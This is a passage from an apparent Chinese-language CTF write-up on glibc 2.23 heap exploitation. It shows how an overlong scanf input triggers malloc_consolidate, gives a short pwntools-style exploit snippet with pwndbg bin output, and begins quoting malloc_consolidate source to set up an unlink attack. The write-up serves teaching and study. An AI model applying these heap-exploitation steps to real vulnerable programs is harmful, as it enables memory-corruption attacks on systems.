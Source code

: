 这里用到了`scanf`的一个缓冲机制，当`scanf`的缓冲区不够用时，就会`malloc`一块更大的`chunk`来充当新的缓冲区，然后使用完之后在free掉，当我们的输入大于`0x400`时，自然会申请一块大于`0x400`的chunk来当缓冲区，正是这个申请可以触发`malloc_consolidate`。

```
for i in range(6):
    add(0x58, i, 'n')

for i in range(5):
    remove(i)

add(0x28, 4, 'n')


sh.sendlineafter('choice &gt;&gt; n', '0' * 0x400)
```

调试结果：

```
pwndbg&gt; bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x1e0: 0x5649e1bc4000 —▸ 0x7fa5c69cad48 (main_arena+552) ◂— 0x5649e1bc4000
largebins
empty
```

这里的chunk被放入`smallbin`是因为申请`0x400`的chunk时，对`unsorted bin`进行了归位操作。



## 利用 malloc_consolidate 巧妙 unlink

虽然有`unsorted bin`可以用了，但是我们并没有一个size为`0x100`的chunk可以free，根据size的限制，我们也不可能申请到，那么该如何进行unlink呢，这里就要用到`malloc_consolidate`一个巧妙的地方。

**下面源码来自：glibc-2.23/malloc/malloc.c:4122**

```
static void malloc_consolidate(mstate av)
`{`
  mfastbinptr*    fb;                 /* current fastbin being consolidated */
  mfastbinptr*    maxfb;              /* last fastbin (for loop control) */
  mchunkptr       p;                  /* current chunk being consolidated */
  mchunkptr       nextp;              /* next chunk to consolidate */
  mchunkptr       unsorted_bin;       /* bin header */
  mchunkptr       first_unsorted;     /* chunk to link to */

...

  /*
    If max_fast is 0, we know that av hasn't
    yet been initialized, in which case do so below
  */

  if (get_max_fast () != 0) `{`
    clear_fastchunks(av);

    unsorted_bin = unsorted_chunks(av);
```